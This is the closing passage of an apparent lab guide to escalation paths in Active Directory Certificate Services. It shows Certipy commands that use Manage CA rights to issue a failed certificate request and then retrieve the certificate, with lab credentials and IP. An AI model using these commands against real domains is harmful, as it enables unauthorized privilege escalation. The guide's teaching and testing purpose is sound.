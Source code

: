 With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

`certipy ca -ca 'Certipied-CA' -issue-request 8 -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -dc-ip 192.168.91.181`

![](/screenshots/20230725010303.png?raw=true)

`certipy req -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -ca Certipied-CA -retrieve 8 -dc-ip 192.168.91.181`

![](/screenshots/20230725010352.png?raw=true)

## Final Words

I hope this examination of some of the available escalation paths has been helpful. I recommend referring to all of the sources mentioned in the beginning to gain a deeper understanding of the topic and the many potential available paths for abusing Active Directory Certificate Services.

I may add more to this guide in the future.
